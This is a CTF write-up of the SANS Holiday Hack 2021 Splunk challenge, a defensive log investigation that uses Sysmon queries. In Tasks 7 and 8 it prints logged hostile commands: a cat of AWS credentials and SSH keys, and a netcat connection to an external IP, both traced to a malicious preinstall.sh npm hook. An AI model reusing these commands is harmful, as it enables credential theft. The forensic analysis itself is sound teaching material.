

# Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 9. Splunk!
### 9.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree:  
Help Angel Candysalt solve the Splunk challenge in Santa's great hall. Fitzy Shortstack is in Santa's lobby, and he knows a few things about Splunk. What does Santa call you when when you complete the analysis?

### 9.1. [Side Challenge - Yara Analysis](/09.%20Splunk!/09.01.%20Yara%20Analisys/README.md)

### 9.2. Hints
**Malicious NetCat??** - *Fitzy Shortstack*: “Did you know there are multiple versions of the Netcat command that can be used maliciously? nc.openbsd, for example.”  
**Sysmon Monitoring in Splunk** - *Fitzy Shortstack*: “Sysmon network events don't reveal the process parent ID for example. Fortunately, we can pivot with a query to investigate process creation events once you get a process ID.”  
**GitHub Monitoring in Splunk** - *Fitzy Shortstack*: “Between GitHub audit log and webhook event recording, you can monitor all activity in a repository, including common git commands such as git add, git status, and git commit.”  

### 9.3. Solution
Santa's To-Do List
 1. Your goal is to complete the eight tasks below.
 2. When you complete the final task, you will see a special message to paste into your KringleCon Badge.
 3. Eddie McJingles was a key DevOps engineer in Santa's North Pole Partner Program, but he left suddenly. Your job is to document Eddie's project.
 4. To complete this challenge, you need to search in Splunk and maybe a few places on the Internet! To access the Splunk search interface, just click the Search link in the navigation bar in the upper left hand corner of the page.
 5. New to Splunk? Check out the sample search links provided.
 6. This challenge is designed for a laptop or desktop computer with screen width of 1600 pixels or more.
 7. WARNING This is a defensive challenge. Do not attack this system, Splunk, Splunk apps, or back-end APIs. Thank you!

#### 9.3.0. Task 1
Capture the commands Eddie ran most often, starting with git. Looking only at his process launches as reported by Sysmon, record the most common git-related CommandLine that Eddie seemed to use.

Using the available query "Sysmon for Linux - Using Splunk stats and sort commands to find most/least common value of a field." :
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie 
| stats count by CommandLine 
| sort - count
```

Modified as:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie "git"
| stats count by CommandLine 
| sort - count
```

Result:
| CommandLine   | count |
| ------------- | ----- |
| `git status`  | 5     |

Answer:
git status

#### 9.3.1. Task 2
Looking through the git commands Eddie ran, determine the remote repository that he configured as the origin for the 'partnerapi' repo. The correct one!

Query:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie "git" "remote" "origin"
| table CommandLine
```

| CommandLine                                                                          |
| ------------------------------------------------------------------------------------ |
| `git remote add origin git@github.com:elfnp3/partnerapi.git`                         |
| `git remote remove origin`                                                           |
| `/usr/lib/git-core/git-remote-https origin https://github.com/elfnp3/partnerapi.git` |
| `git remote add origin https://github.com/elfnp3/partnerapi.git`                     |

Answer:
git@github.com:elfnp3/partnerapi.git

#### 9.3.2. Task 3
Eddie was running Docker on his workstation. Gather the full command line that Eddie used to bring up a the partnerapi project on his workstation.

Query:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie docker 
| stats count by CommandLine
```

Results:
| CommandLine | count |
| ----------- | ----- |
| `/usr/bin/python3 /usr/bin/docker-compose up` | 1 |
| `docker compose up` | 1 |
| `docker ps` | 10 |
| `git add Dockerfile LICENSE README.md config.js config.xml controllers docker-compose.yml index.html index.js models package.json public routes rpc_server.js soapserver startup_script.js swagger.js utils.js ._.dockerignore ._.env ._.gitignore ._.gitpod.yml ._Dockerfile ._LICENSE ._README.md ._config.js ._config.xml ._controllers ._docker-compose.yml ._index.html ._index.js ._models ._package.json ._public ._routes ._rpc_server.js ._soapserver ._startup_script.js ._swagger.js ._utils.js .dockerignore .env .gitignore .env .gitignore .gitpod.yml` | 2 |

Answer:
docker compose up

#### 9.3.3. Task 4
Eddie had been testing automated static application security testing (SAST) in GitHub. Vulnerability reports have been coming into Splunk in JSON format via GitHub webhooks. Search all the events in the main index in Splunk and use the sourcetype field to locate these reports. Determine the URL of the vulnerable GitHub repository that the elves cloned for testing and document it here. You will need to search outside of Splunk (try GitHub) for the original name of the repository.

Query:
```bash
index=main sourcetype=github_json 
| stats count by repository.git_url
```

Results:
| repository.git_url                       | count |
| ---------------------------------------- | ----- |
| `git://github.com/elfnp3/dvws-node.git`  | 23    |
| `git://github.com/elfnp3/partnerapi.git` | 4     |

Now, we already know partnerapi is the git used by the elf, let's go to github for dvws:
https://github.com/elfnp3/dvws-node
The README of this repo references another one:
Damn Vulnerable Web Service is a Damn Vulnerable Insecure API/Web Service. This is a replacement for https://github.com/snoopysecurity/dvws

Answer:
https://github.com/snoopysecurity/dvws-node

#### 9.3.4. Task 5
Santa asked Eddie to add a JavaScript library from NPM to the 'partnerapi' project. Determine the name of the library and record it here for our workshop documentation.

Query:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie npm install
| table CommandLine
```

Results:
| CommandLine                                               | 
| --------------------------------------------------------- |
| `/usr/bin/env node /usr/bin/npm install`                  |
| `/usr/bin/env node /usr/bin/npm install holiday-utils-js` |
| `node /usr/bin/npm install`                               |
| `node /usr/bin/npm install holiday-utils-js`              |

Answer:
holiday-utils-js

#### 9.3.5. Task 6
Another elf started gathering a baseline of the network activity that Eddie generated. Start with their search ( https://hhc21.bossworkshops.io/en-US/app/SA-hhc/search?q=search%20index%3Dmain%20sourcetype%3Djournald%20source%3DJournald%3AMicrosoft-Windows-Sysmon%2FOperational%20EventCode%3D3%20user%3Deddie%20NOT%20dest_ip%20IN%20(127.0.0.*)%20NOT%20dest_port%20IN%20(22%2C53%2C80%2C443)%20%0A%7C%20stats%20count%20by%20dest_ip%20dest_port&display.page.search.mode=smart&dispatch.sample_ratio=1&workload_pool=&earliest=0&latest=now ) and capture the full process_name field of anything that looks suspicious.

Query:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) 
| table process_name dest_ip dest_port
```

Results:
| process_name          | dest_ip        | dest_port |
| --------------------- | -------------- | --------- |
| `/usr/bin/git`        | 192.30.255.113 | 9418      |
| `/usr/bin/nc.openbsd` | 54.175.69.219  | 16842     |

IP 192.30.255.113 is pertaining to git: https://whatismyipaddress.com/ip/192.30.255.113 
IP 54.175.69.219 is an AWS server with port 443 open: https://www.shodan.io/host/54.175.69.219.
The nc command looks malicious as it opens a connection to an external AWS server on an unassigned port.

Answer:
/usr/bin/nc.openbsd

#### 9.3.6. Task 7
Uh oh. This documentation exercise just turned into an investigation. Starting with the process identified in the previous task, look for additional suspicious commands launched by the same parent process. One thing to know about these Sysmon events is that Network connection events don't indicate the parent process ID, but Process creation events do! Determine the number of files that were accessed by a related process and record it here.

Query1:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) process_name=/usr/bin/nc.openbsd
| table process_id process_name
```

Result1:
| process_id | process_name          |
| ---------- | --------------------- |
| 6791       | `/usr/bin/nc.openbsd` |

Query2:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 process_id=6791 
| table ParentProcessId
```

Result2:
| ParentProcessId |
| 6788            |

Query3:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 ParentProcessId=6788 
| table CommandLine
```

Result3:
| CommandLine |
| ----------- |
| `nc -q1 54.175.69.219 16842` |
| `cat /home/eddie/.aws/credentials /home/eddie/.ssh/authorized_keys /home/eddie/.ssh/config /home/eddie/.ssh/eddie /home/eddie/.ssh/eddie.pub /home/eddie/.ssh/known_hosts` |

The lazy query:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 ParentProcessId=6788 CommandLine="cat*"
| eval temp=split(CommandLine," ")
| mvexpand temp
| stats count AS len
| eval args = len - 1
| table args
```

The lazy result:
| args |
| ---- |
| 6    |

Answer:
6

#### 9.3.7. Task 8
Use Splunk and Sysmon Process creation data to identify the name of the Bash script that accessed sensitive files and (likely) transmitted them to a remote IP address.

Query:
```bash
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 ProcessId=6788 
| table ParentCommandLine
```

Result:
| ParentCommandLine         |
| ------------------------- |
| `/bin/bash preinstall.sh` |

Answer:
preinstall.sh

#### 9.3.8. What does Santa call you when when you complete the analysis?
Thank you for helping Santa complete his investigation! Santa says you're a **whiz**!


---
### 9.1. [Side Challenge - Yara Analysis](/09.%20Splunk!/09.01.%20Yara%20Analisys/README.md)
## 10. [Now Hiring!](/10.%20Now%20Hiring!/README.md)
### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)
## 11. [Customer Complaint Analysis](/11.%20Customer%20Complaint%20Analysis/README.md)
### 11.1. [Side Challenge - Strace Ltrace Retrace](/11.%20Customer%20Complaint%20Analysis/11.01%20Side%20Challenge%20-%20Strace%20Ltrace%20Retrace/README.md)
## 12. [Frost Tower Website Checkup](/12.%20Frost%20Tower%20Website%20Checkup/README.md)
### 12.1. [Side Challenge - The Elf C0de Python Edition](/12.%20Frost%20Tower%20Website%20Checkup/12.01.%20Side%20Challenge%20-%20The%20Elf%20C0de%20Python%20Edition/README.md)
## 13. [FPGA Programming](/13.%20FPGA%20Programming/README.md)
### 13.1. [Side Challenge - Frostavator](/13.%20FPGA%20Programming/13.01.%20Side%20Challenge%20-%20Frostavator/README.md)
## 14. [Bonus! Blue Log4Jack](/14.%20Bonus!%20Blue%20Log4Jack/README.md)
## 15. [Bonus! Red Log4Jack](/15.%20Bonus!%20Red%20Log4Jack/README.md)
## 16. [That’s how Jack came from space](/README.md#16-thats-how-jack-came-from-space)
## 17. [Narrative](/README.md#17-narrative)
## 18. [Conclusions](/README.md#18-conclusions)
---
## 0. [windovo\\thedead> whoami](/README.md)
## 1. [KringleCon Orientation](/01.%20KringleCon%20Orientation/README.md)
## 2. [Where in the World is Caramel Santiaigo?](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/README.md)
### 2.1. [Side Challenge - Exif Metadata](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/02.01.%20Side%20Challenge%20-%20Exif%20Metadata/README.md)
## 3. [Thaw Frost Tower's Entrance](/03.%20Thaw%20Frost%20Tower's%20Entrance/README.md)
### 3.1. [Side Challenge - Grepping for Gold](/03.%20Thaw%20Frost%20Tower's%20Entrance/03.01.%20Grepping%20for%20Gold/README.md)
## 4. [Slot Machine Investigation](/04.%20Slot%20Machine%20Investigation/README.md)
### 4.1. [Side Challenge - Logic Munchers](/04.%20Slot%20Machine%20Investigation/04.01.%20Side%20Challenge%20-%20Logic%20Munchers/README.md)
## 5. [Strange USB Device](/05.%20Strange%20USB%20Device/README.md)
### 5.1. [Side Challenge - IPv6 Sandbox](/05.%20Strange%20USB%20Device/05.01.%20Side%20Challenge%20-%20IPv6%20Sandbox/README.md)
## 6. [Shellcode Primer](/06.%20Shellcode%20Primer/README.md)
### 6.1. [Side Challenge - Holiday Hero](/06.%20Shellcode%20Primer/06.01.%20Side%20Challenge%20-%20Holiday%20Hero/README.md)
## 7. [Printer Exploitation](/07.%20Printer%20Exploitation/README.md)
## 8. [Kerberoasting on an Open Fire](/08.%20Kerberoasting%20on%20an%20Open%20Fire/README.md)
### 8.1. [Side Challenge - HoHo … No](/08.%20Kerberoasting%20on%20an%20Open%20Fire/08.01.%20Side%20Challenge%20-%20HoHo%20…%20No/README.md)